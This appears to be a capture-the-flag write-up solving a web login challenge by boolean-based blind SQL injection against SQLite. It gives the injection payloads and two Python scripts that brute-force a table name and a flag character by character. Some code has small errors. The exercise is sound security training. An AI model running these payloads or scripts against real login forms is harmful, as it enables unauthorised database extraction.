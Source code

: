 # B!inded! (Web Challenge)
### First it is my first time to write writeups so it will be nice if you have a negative feedback for me :)
## Description 

```
No fuzzing is needed, just get the flag , Format : EGCERT{flag}
Points : 200
```

## Enumeration 
 
once i opened the challenge i found this login page 

![loginpage](../assets/ieee/B!inded!/login-page.jpeg)

And we have a hint on the description that tell us we don't need to fuzzing so our entry is the login page 
so i tried ```admin``` ```admin``` in the user and pass , i have got response ```wrong password``` so now i know that we have admin username . 

i tried again with aboelnour and pass and i have got that user not found

so i fired up my burp and send ```a``` in user and ```a``` in pass

And i have noticed that username and password converted to hex and sperated by four zeros 
for example a = 61 in hex so our request will be like this 

![request](../assets/ieee/B!inded!/request.png)

and the response of this request is

```
user not found 
```


And from the challenge name i got that it might be blind sqli 

so i typed ```aboelnour"``` in username and ```0``` in pass , i have got internal server error.
then i typed ```aboelnour" or 1=1 -- -``` and B00M i have got response ```Wrong Password```  , to make sure i tried ```aboelnour" or 1=0 -- -``` and got response ```User not found``` , so it is boolean based sqli 

so let's enum our sql type 

i tried ```admin" select version()-- -``` but i got internal server error 

so i tried ```admin"select sqlite_version()-- -``` , and response was Wrong password , so our db is ```SQLite``` 

-----

## Extract table name  

+ First of all , we have SQL Server SUBSTRING() Function , this function use to extracts some characters from a     string. 

### Ex :

+ substring("Aboelnour",1,1) , output will be --> A

+ substring("Aboelnour",2,1) , output will be --> b 

and so on

+ we have alos SQL LIKE Operator : you can check it on "[https://www.w3schools.com/sql/sql_like.asp](https://www.w3schools.com/sql/sql_like.asp)"



so if we have table name = users and column name = user we can enum users with query like this 

```substring((select user from users where user like '%a%'),1,1) = 'a'```

operator ```like '%a%``` : will finds any values that have a on any position  

then i have searched about how to extract tables from SQLitedb and found this payloads in payloadsALLTheThings on github : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version)


I got this query to Extract table names

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

I have modified it to this query below to find any table have fl in any position  

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_% AND like '%fl%'
```

so our final payload will be : 

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'f' -- -```

i tried it and i have got User not found so the first char not f 

So i have tried

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'F' -- -``` , i have got Wrong password so the first character is F 

but it will be hard to make it manually so i have wrote python script to got table name 

----

## Exploit code 

first we need to convert our username to hex and concate it with 000061 , 61 is the password
second we need to brute force chars in i place then check if Wrong in response so we got the right char and increase step with 1 to find the second char and so on 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
returned_text="Wrong"
table=""
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type=\'table\' and tbl_name NOT like \'sqlite_%\' and tbl_name like \'%fl%\'),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			table = table + i
			print("found more char : ", table)

print("Flag table name : " , table)
```

Afer running this script i got 
```
Flag table name : Flag_jnk249
```

so now we have the table name 

before brute force column i have try this payload 

```
admin"select flag from Flag_jnk249-- -
```
and i got Wrong password so our column name is flag 

i modified my previse script to got the flag 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
flag=""
returned_text="Wrong"
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT flag from Flag_jnk249),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			flag = flag + i
			print("found more char : ", flag)

print("FLAG : " flag)
```

```
AND finnaly i have got FLAG The : EGCERT{flaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag}
```

#### Linkedin : [https://www.linkedin.com/in/maboelnour12/](https://www.linkedin.com/in/maboelnour12/)
#### Facebook : [https://www.facebook.com/maboelnour12](https://www.facebook.com/maboelnour12)
